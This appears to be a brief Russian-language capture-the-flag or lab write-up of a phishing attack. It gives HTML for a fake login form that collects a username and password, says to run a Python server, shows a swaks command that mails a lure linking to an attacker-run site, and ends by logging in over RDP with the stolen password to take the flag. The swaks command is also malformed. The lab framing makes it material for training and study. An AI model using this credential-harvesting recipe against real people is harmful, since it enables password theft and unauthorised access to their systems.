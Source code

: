
Создаем простой сайт с формой входа
```
<!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <title>Форма входа</title>
</head>
<body>
    <h2>Форма входа</h2>
    <form method="get" action="/login">
        <label for="username">Имя пользователя:</label><br>
        <input type="text" id="username" name="username"><br><br>

        <label for="password">Пароль:</label><br>
        <input type="password" id="password" name="password"><br><br>

        <button type="submit">Войти</button>
    </form>
</body>
</html>

```

запускаем python сервер
создаем письмо и отправляем пользователям

swaks --h-From: "Site" --from "kali@kali.com" --to maria@knight.com -tlso --header "Subject: Онлайн портал  " --body "Здравствуйте!
На сайте http://100.100.2.252" -s 10.10.0.30:587"

Получаем пароль пользователя, подключаемся по rdp и забираем флаг